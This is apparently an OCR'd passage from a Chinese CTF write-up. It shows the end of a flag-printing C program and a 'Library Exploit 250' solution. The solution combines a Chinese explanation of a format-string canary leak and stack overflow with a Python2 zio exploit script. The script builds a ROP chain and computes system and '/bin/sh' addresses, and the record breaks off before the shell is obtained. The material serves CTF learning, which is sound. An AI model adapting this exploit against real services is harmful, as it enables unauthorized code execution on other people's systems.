 ```
    }
    unsigned char ans[SHA_DIGEST_LENGTH]; 
    SHA1_Final(ans, &c);
    printf("ISG{");
    printf("%02x", ans[0]);
    for (int i = 1; i < SHA_DIGEST_LENGTH; ++i)
        printf("-%02x", ans[i]); 
    printf("}\n");
    return 0; 
}

```

￼￼￼

### Library Exploit 250

在 register 功能中只能输入 15 字节长度来触发格式化字符串漏洞,且%字符数量有限,因此考虑 用格式化字符串漏洞泄露出 stack canary,并将某关键计数改大,然后再利用 query 功能中的栈 溢出来获取 shell。

```
#!/usr/bin/env python2
from zio import *

target = ('202.120.7.68', 23333)
io = zio(target, print_read=False, print_write=False) 

count_addr = 0x804b008

io.read_until('4\. Quit\n') 
io.write('1\n')

payload = l32(count_addr + 3) + '%35$p%10$hn\n' 
io.write(payload)
io.read_until('0x')
canary = io.read(8).decode('hex')[::-1]
print '[+] canary : %s' % canary.encode('hex')
io.read_until(￼'4\. Quit\n')

put_plt = 0x8048520 
printf_got = 0x804afc8 
read_plt = 0x80484d0 
junk = 'JJJJ'
popret = 0x8048c3f
pop3ret = 0x8048c3d
new_stack = 0x804bf30
leave_ret = 0x8048aa6

io.write('2\n')
payload = 'A' * 0x100 + canary + 'A' * 12
payload += l32(put_plt) + l32(popret) + l32(printf_got)
payload += l32(read_plt) + l32(pop3ret) + l32(0) + l32(new_stack) + l32(32)
payload += l32(popret) +  l32(new_stack) + l32(leave_ret)
payload += '\n'

io.write(payload) 
io.read_until(':\'(\n')
printf = l32(io.read(4))
print '[+] printf : %s' % hex(printf)
system = printf - 0x4d1f0 + 0x40100 
binsh = printf - 0x4d1f0 + 0x161304 
print '[+] system : %s' % hex(system) 
print '[+] binsh : %s' % hex(binsh)

```